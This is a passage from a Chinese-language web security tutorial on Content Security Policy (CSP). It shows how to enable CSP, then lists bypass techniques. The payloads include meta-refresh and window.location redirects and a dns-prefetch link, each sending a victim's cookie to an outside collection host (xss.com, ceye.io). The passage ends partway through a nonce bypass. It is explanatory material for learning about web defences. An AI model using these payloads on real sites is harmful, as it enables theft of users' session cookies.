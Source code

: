 `CSP`的实质就是白名单机制，对网站加载或执行的资源进行安全策略的控制。 

**两种方法启用`CSP`**

```c
1. 添加HTTP头信息；
Content-Security-Policy: script-src 'self'; object-src 'none'; style-src cdn.example.org; child-src https:
2. 使用<meta>标签
<meta http-equiv="Content-Security-Policy" content="script-src 'self'; object-src 'none'; style-src cdn.example.org; child-src https:">
参数解释

script-src(脚本)：只信任当前域名
object-src(标签)：不信任任何URL，即不加载任何资源
样式表：只信任http://cdn.example.org
框架（frame）：必须使用HTTPS协议加载
```

`CSP`各种限制选项参考：[知乎回答](https://www.zhihu.com/question/21979782)，[CSP基础语法和绕过](https://www.mi1k7ea.com/2019/02/24/CSP%E7%AD%96%E7%95%A5%E5%8F%8A%E7%BB%95%E8%BF%87%E6%8A%80%E5%B7%A7%E5%B0%8F%E7%BB%93/)

### 绕过CSP(1、2、3、5 重点)

**1.`URL`跳转**

在`default-src` 'none'的情况下，可以使用meta标签实现跳转

```html
<meta http-equiv="refresh" content="1;url=http://www.xss.com/x.php?c=[cookie]" >
```

在允许`unsafe-inline`的情况下，可以用`window.location`，或者`window.open`之类的方法进行跳转绕过

```html
<script>
  window.location="http://www.xss.com/x.php?c=[cookie]";
</script>
```

**2.`link`标签预加载**

在Firefox下，可以将cookie作为子域名，用`dns预解析`的方式把cookie带出去，查看`dns`服务器的日志就能得到cookie 

```html
<link rel="dns-prefetch" href="//[cookie].xxx.ceye.io">
```

**3.利用浏览器补全** 

有些网站限制只有某些脚本才能使用，往往会使用script标签的nonce属性，只有nonce一致的脚本才生效 

```http
Content-Security-Policy: default-src 'none';script-src 'nonce-abc'

//CSP设置nonce为abc属性的标签
```

那么当脚本插入点为如下的情况时
